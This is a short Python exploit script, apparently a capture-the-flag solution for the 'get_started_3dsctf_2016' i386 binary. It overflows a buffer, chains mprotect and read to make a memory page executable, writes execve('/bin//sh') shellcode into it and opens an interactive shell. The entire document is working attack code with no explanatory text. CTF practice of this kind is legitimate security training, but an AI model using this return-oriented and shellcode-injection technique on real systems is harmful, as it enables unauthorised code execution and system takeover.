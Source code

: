 - exp

```
PYTHON - 32 lines
#!/usr/bin/python3
from pwncli import *

cli_script()

pwnfile="./get_started_3dsctf_2016"
io=gift["io"]
elf=gift["elf"]
context.arch="i386"
mprotect_addr=elf.sym.mprotect
read=elf.sym.read

mem_addr=0x080Ec000
mem_size=0x1000
mem_proc=0x7
pop_addr=0x0804951d

payload=b"A"*0x38+p32(mprotect_addr)
payload+=p32(pop_addr)
payload+=p32(mem_addr)+p32(mem_size)+p32(mem_proc)

payload+=p32(read)
payload+=p32(pop_addr)
payload+=p32(0)+p32(mem_addr)+p32(0x100)
payload+=p32(mem_addr)

sl(payload)

pay=b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
sl(pay)

ia()
```